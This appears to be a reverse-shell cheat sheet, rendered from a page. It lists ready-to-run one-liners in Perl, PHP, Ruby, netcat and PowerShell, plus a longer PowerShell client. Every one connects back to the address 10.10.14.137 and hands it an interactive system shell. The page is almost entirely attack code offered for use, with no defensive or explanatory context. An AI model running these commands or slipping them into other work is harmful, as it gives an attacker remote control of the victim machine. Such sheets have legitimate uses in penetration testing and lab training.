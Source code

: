 **Perl Reverse Shell**

```perl
perl -e 'use Socket;$i="10.10.14.137";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**PHP Reverse Shell**

```php
php -r '$sock=fsockopen("10.10.14.137",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby Reverse Shell**

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.14.137",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**Netcat Reverse Shell**

```bash
# Traditional netcat with -e
nc -e /bin/sh 10.10.14.137 4444

# Without -e option
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.137 4444 >/tmp/f
```

#### Windows Reverse Shells

**PowerShell Reverse Shell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.137', 4443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

**PowerShell One-liner**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.137',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$stream.Write($sbt,0,$sbt.Length);$stream.Flush()};$client.Close()"
```

